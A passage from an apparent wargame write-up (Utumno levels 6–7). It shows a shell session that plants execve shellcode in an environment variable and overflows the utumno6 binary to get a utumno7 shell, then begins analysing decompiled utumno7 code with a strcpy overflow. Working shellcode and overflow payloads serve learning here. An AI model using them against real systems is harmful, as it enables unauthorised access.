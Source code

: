 ```bash
utumno6@utumno:/tmp/tasks/utumno6$ export SHELLCODE=$(perl -e 'print "\x90"x20 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
utumno6@utumno:/tmp/tasks/utumno6$ ./find_env SHELLCODE
SHELLCODE is at 0xffffd5ab
utumno6@utumno:/tmp/tasks/utumno6$ /utumno/utumno6 -1 ffffd2dc $(perl -e 'print "A"x12 . "\xab\xd5\xff\xff"')
$ whoami
utumno7
```

---
---
## Utumno7 Solution
**Username:** utumno7\
**Password:** [REDACTED]

### Disassembly:
```c
int vuln(char* arg)
{
    int32_t var_8 = 0;
    void var_a4;
    jbp = &var_a4;
    
    if (_setjmp(&var_a4))
        return 0;
    
    char var_124[0x80];
    strcpy(&var_124, arg);
    jmp(0x17);
    /* no return */
}

int main(int argc, char** argv)
{
    if (argc <= 1)
    {
        exit(1);
        /* no return */
    }
    
    puts("lol ulrich && fuck hector");
    vuln(argv[1]);
    return 0;
}

void jmp(int i) __noreturn
{
    longjmp(jbp, i);
    /* no return */
}
```
At first this challenge seems a bit complicated for no reason, but it's actually quite straight forward to solve. Ignoring the `_setjmp()`, `jmp()`, and `longjmp()` function calls, we can see that the main function prints a message before calling the `vuln()` function passing the value of `argv[1]`.

